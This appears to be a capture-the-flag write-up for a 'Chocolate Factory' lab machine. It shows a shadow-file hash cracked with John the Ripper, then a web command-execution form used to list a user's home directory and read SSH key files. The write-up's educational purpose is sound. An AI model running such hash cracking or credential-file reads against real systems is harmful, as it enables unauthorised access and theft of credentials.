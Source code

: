 ````
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
````

So, we need to crack this, with John The Ripper, John, for the friends.

````commandline
$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (charlie)
1g 0:00:01:17 DONE (2021-08-24 14:35) 0.01282g/s 12632p/s 12632c/s 12632C/s codify..cliffoo2330
Use the "--show" option to display all of the cracked passwords reliably
Session completed
````

_Note that I stripped out the useful data. See the 6 asterisks._

We can answer another question of this challenge by now :)

## Looking at the web server

It's time to move on. Looking at the website, we have a login form.

![alt text](files/website_01.png "Website screenshot")

We have also a username and a password. So let's try to log in! Which works and bring us to some execute web form where we can input a command.

![alt text](files/website_02.png "Website screenshot")

Ran a few randoms command in that web form and `ls /home/charlie/` gave finally this:

    teleport teleport.pub user.txt

However, the command `cat` seems to be filtered as it does not produce output when running `cat /home/charlie/user.txt`. To be sure tried `cat /home/charlie/teleport.pub` which produced the following output:

````commandline
 ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zdSH3xFgOtnwJQEOBYsQ1TJsXrSUyT1hA4ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory
````

So, not sure if there's been a filter! So also grabbed `cat /home/charlie/teleport`:

![alt text](files/teleport-private-key.png "screenshot")
